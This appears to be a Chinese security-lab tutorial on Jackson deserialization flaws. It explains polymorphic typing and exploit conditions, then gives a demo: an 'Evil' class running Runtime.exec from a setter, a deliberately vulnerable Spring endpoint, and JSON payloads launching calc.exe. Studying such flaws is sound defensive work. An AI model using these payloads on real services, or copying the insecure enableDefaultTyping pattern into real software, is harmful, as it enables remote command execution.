





- [Jackson 反序列化漏洞](#jackson-反序列化漏洞)
  - [ObjectMapper](#objectmapper)
  - [反序列化 Vs 多态](#反序列化-vs-多态)
    - [DefaultTyping](#defaulttyping)
    - [@JsonTypeInfo注解](#jsontypeinfo注解)
  - [Jackson反序列化漏洞](#jackson反序列化漏洞)
    - [漏洞利用条件](#漏洞利用条件)
    - [Demo](#demo)
  - [Jackson的修复方案](#jackson的修复方案)
  - [参考](#参考)

# Jackson 反序列化漏洞
## ObjectMapper
Jackson 最常用的 API 就是基于"对象绑定" 的 ObjectMapper：
* ObjectMapper可以从字符串，流或文件中解析JSON，并创建表示已解析的JSON的Java对象。 将JSON解析为Java对象也称为从JSON反序列化Java对象。
* ObjectMapper也可以从Java对象创建JSON。 从Java对象生成JSON也称为将Java对象序列化为JSON。
* Object映射器可以将JSON解析为自定义的类的对象，也可以解析置JSON树模型的对象。
之所以称为ObjectMapper是因为它将JSON映射到Java对象（反序列化），或者将Java对象映射到JSON（序列化）。
## 反序列化 Vs 多态
由于JAVA的多态特性，当反序列化时的类不是具体的类型，而是接口或者抽象类时，可以通过在Json字符串中指定具体的子类类型，这样便可以反序列化出字类实例对象。  

也就是将要反序列化的具体类型交由客户端指定，这样便存在JAVA反序列化漏洞常见的利用场景，通过在可控的Json字符串中指定恶意的字类，导致服务端在生成该恶意类实例时通过在还原该字类的属性时自动调用相关setter方法(或反射)的特性来执行触发恶意方法执行。

而该特性默认并没有开启，需要通过`ObjectMapper.enableDefaultTyping()`或`@JsonTypeInfo`注解来开启该功能。

两则的区别主要如下
* DefaultTyping通过属性类型决定是否对该类型属性使用客户端指定的类进行反序列化（即开启了该配置之后，符合该类型的属性都会从客户端接受指定的类进行反序列化操作）。
* @JsonTypeInfo注解则是单独设置某个属性是否使用客户端指定的类进行反序列化。
### DefaultTyping
DefaultTyping支持四个配置选项，该配置选项主要控制了对该类的哪些属性是否继续进行序列化和反序列化操作.

默认为`OBJECT_AND_NON_CONCRETE`.


|DefaultTyping|继续序列化和反序列化的属性类型
|--|--|
JAVA_LANG_OBJECT|属性的类型为Object
OBJECT_AND_NON_CONCRETE|属性的类型为Object、Interface、AbstractClass
NON_CONCRETE_AND_ARRAYS|属性的类型为Object、Interface、AbstractClass、Array
NON_FINAL|所有除了声明为final之外的属性
```java
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping();
        Object obj = mapper.readValue(json, Object.class);
```

### @JsonTypeInfo注解
@JsonTypeInfo注解是针对对类中的属性如果存在多态的情况支持客户端指定类进行反序列化。
支持五种类型。
* @JsonTypeInfo(use = JsonTypeInfo.Id.NONE)
* @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
* @JsonTypeInfo(use = JsonTypeInfo.Id.MINIMAL_CLASS)
* @JsonTypeInfo(use = JsonTypeInfo.Id.NAME)
* @JsonTypeInfo(use = JsonTypeInfo.Id.CUSTOM)

其中主要是当使用`JsonTypeInfo.Id.MINIMAL_CLASS`和`JsonTypeInfo.Id.CLASS`时可以通过`@c`和`@class`参数指定要反序列化的类。
## Jackson反序列化漏洞
而Jackson的反序列化流程主要也是分为两步
1. 生成该类的实例
2. 设置该实例属性的值
通常我们利用生成实例的调用的构造函数或者在设置属性值时自动调用相关属性的setter方法来触发恶意利用。
### 漏洞利用条件
所以Jackson反序列化漏洞的前置条件則是满足以下三种条件的其中一种即可
* 调用了ObjectMapper.enableDefaultTyping()方法开启了对多态的支持；
* 对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.CLASS的@JsonTypeInfo注解
* 对要进行反序列化的类的属性使用了值为JsonTypeInfo.Id.MINIMAL_CLASS的@JsonTypeInfo注解

在这些场景中我们才能够从客户端控制服务端要反序列化的类。

但实际上除了启用enableDefaultTyping或JsonTypeinfo注解以下，在真实场景中对反序列化的类也有一定要求。
1. 首先该类必须要有Object类型的属性或者该类自己的setter方法或者构造函数就存在可利用的代码（基本不可能），如果全是基础类型，在默认情况下是不触发属性反序列化对象操作的。
   
2. 该属性类型必须是非具体类，需要是接口类或者抽象类才会触发反序列化客户端指定类，如果已经限定了具体的子类类型，那么也不会从反序列化客户端指定的恶意类。

3. 客户端指定的恶意类必须是该属性类型的子类，不然会抛异常，除非该属性类型就是Object类（Object类是所有对象的父类，这种情况则可以指定任意类进行反序列化），所以实际上能利用的恶意类还是比较受限的。

所以只有在满足三种前置条件中的一种，且当反序列化类存在一个Object类型的属性时，Jackson反序列化漏洞才算能真正比较好利用，可能这也是Jackson反序列化漏洞影响没有那么广泛的原因。
### Demo
恶意类:
```java
package security.lab.code.deserialize;

import java.io.IOException;

public class Evil {
    public Evil(String cmd, String name) {
        this.cmd = cmd;
        this.name = name;
    }

    public Evil( ) {

    }

    public String cmd;
    private String name;
    public String getCmd() {
        return cmd;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public void setCmd(String cmd) throws IOException {
        this.cmd = cmd;
        if (cmd == null || cmd.isEmpty()) {
            return;
        }
        Runtime.getRuntime().exec(cmd);
    }
}

```
正常类
```java
package security.lab.code.deserialize;

import com.fasterxml.jackson.annotation.JsonTypeInfo;

public class JsonUser {
    public String name;
    public String email;
    public int id;
    public int age;
    public String about;
    @JsonTypeInfo(use = JsonTypeInfo.Id.CLASS)
    public Object evil;

    public JsonUser() {
    }

    public JsonUser(String name, String email, int age, String about) {
        this.name = name;
        this.email = email;
        this.age = age;
        this.about = about;
        this.id = 0;
        this.evil = new NormalUser(name, email, age, about);
    }

    public Object getEvil() {
        return evil;
    }

    public void setEvil(Object evil) {
        this.evil = evil;
    }

    public String getName() {
        return name;
    }

    public void setName(String name) {
        this.name = name;
    }

    public String getEmail() {
        return email;
    }

    public void setEmail(String email) {
        this.email = email;
    }

    public int getId() {
        return id;
    }

    public void setId(int id) {
        this.id = id;
    }

    public int getAge() {
        return age;
    }

    public void setAge(int age) {
        this.age = age;
    }

    public String getAbout() {
        return about;
    }

    public void setAbout(String about) {
        this.about = about;
    }
}

```
业务代码
```java
package security.lab.code.deserialize;

import com.fasterxml.jackson.core.JsonProcessingException;
import com.fasterxml.jackson.databind.JsonMappingException;
import com.fasterxml.jackson.databind.ObjectMapper;
import com.fasterxml.jackson.databind.SerializationFeature;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RequestMethod;
import org.springframework.web.bind.annotation.RequestParam;
import org.springframework.web.bind.annotation.RestController;

import java.io.IOException;

@RestController
@RequestMapping("/jackson")
public class JackSonController {

    @RequestMapping(value = "/serialize", method = RequestMethod.POST)
    public String serialize(@RequestParam String name, @RequestParam String email,@RequestParam String about,@RequestParam int age) throws IOException {
        // Simulate serialization logic
        ObjectMapper mapper = new ObjectMapper();
        Object user = new JsonUser(name, email, age, about);
        String json = mapper.writeValueAsString(user);
        return "Serialized JSON: " + json;
    }


    @RequestMapping(value = "/vulnerable",method = RequestMethod.POST)
    public String deserialize(@RequestParam String json) throws Exception {
        ObjectMapper mapper = new ObjectMapper();
        mapper.enableDefaultTyping(ObjectMapper.DefaultTyping.OBJECT_AND_NON_CONCRETE);
        JsonUser obj = mapper.readValue(json, JsonUser.class);
        // Simulate deserialization logic
        return "Deserialized JSON: " + json;
    }

    @RequestMapping("/fix")
    public String deserializeFix(@RequestParam String json)    {
        ObjectMapper mapper = new ObjectMapper();
        try {
            Object obj = mapper.readValue(json, Object.class);
        } catch (JsonProcessingException e) {
            throw new RuntimeException("JSON 解析失败", e);
        }
        // Simulate a safer deserialization logic
            // In a real application, you would use a library that prevents deserialization vulnerabilities
            return "Safely deserialized JSON: " + json;

        }


}

```
启用enableDefaultTyping方法时  
payload:
```json
json= {"name":"test","email":"test@gil.com","id":0,"age":18,"about":"test","evil":["security.lab.code.deserialize.Evil",{"name":"test","cmd":"calc.exe"}]}
```

使用@JsonTypeInfo注解时
payload:
```json
json= {"name":"test","email":"test@gil.com","id":0,"age":18,"about":"test","evil":{"@class":"security.lab.code.deserialize.Evil","name":"test","cmd":"calc.exe"}}
```

区别在于使用注解时通过@class或者@c关键字来设置具体的恶意类名，格式以{}包裹，而使用enableDefaultTyping方法时通过数组的方式指定类名
```
# DefaultTyping
"evil":["security.lab.code.deserialize.Evil",{"name":"test","cmd":"calc.exe"}]
# @JsonTypeInfo
"evil":{"@class":"security.lab.code.deserialize.Evil","name":"test","cmd":"calc.exe"}
```
## Jackson的修复方案
Jackson的修复方式是维护了一个黑名单列表。
在2.7.9.2之前该名单设置于`src/main/java/com/fasterxml/jackson/databind/deser/BeanDeserializerFactory.java`  
之后的版本该黑名单在`src/main/java/com/fasterxml/jackson/databind/jsontype/impl/SubTypeValidator.java`类中进行维护

## 参考
https://xz.aliyun.com/news/12412
